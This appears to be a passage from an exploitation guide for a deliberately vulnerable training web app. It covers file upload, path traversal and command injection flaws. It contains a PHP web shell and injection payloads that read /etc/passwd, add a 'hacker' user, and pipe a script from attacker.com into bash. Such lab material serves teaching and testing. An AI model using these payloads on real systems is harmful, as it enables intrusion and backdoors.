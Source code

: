 **How to Exploit**:
1. Log in to the application
2. Navigate to the file upload feature
3. Create a malicious PHP file (e.g., `shell.php`) containing:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
4. Upload this file
5. Access the file at `/uploads/shell.php?cmd=ls` to execute commands

### 2. Path Traversal in File Upload

**Description**: The file upload doesn't sanitize filenames, allowing for path traversal attacks.

**How to Exploit**:
1. Create a file named `../config.js` (or other sensitive location)
2. Upload this file
3. The file will be saved outside the intended upload directory, potentially overwriting system files

---

## Command Injection

### 1. Command Injection in Admin Report

**Description**: The admin report feature executes system commands with unsanitized user input.

**Location**: `/api/admin/run-report` endpoint in `server.js`

**Vulnerable Code**:
```javascript
// Vulnerable to command injection
exec(`node scripts/reports/${report_name}.js`, (error, stdout, stderr) => {
  // ...
});
```

**How to Exploit**:
1. Log in as an admin user
2. Navigate to the "Run Report" feature
3. Enter a payload like: `fake; cat /etc/passwd` or `fake & whoami`
4. The command will execute, and the output will be returned

**Alternative payload for more dangerous exploits**:
- Windows: `fake.js & net user hacker password123 /add`
- Linux: `fake.js; curl -s http://attacker.com/backdoor | bash`

---

## Insecure Direct Object References (IDOR)

### 1. IDOR in User Profiles
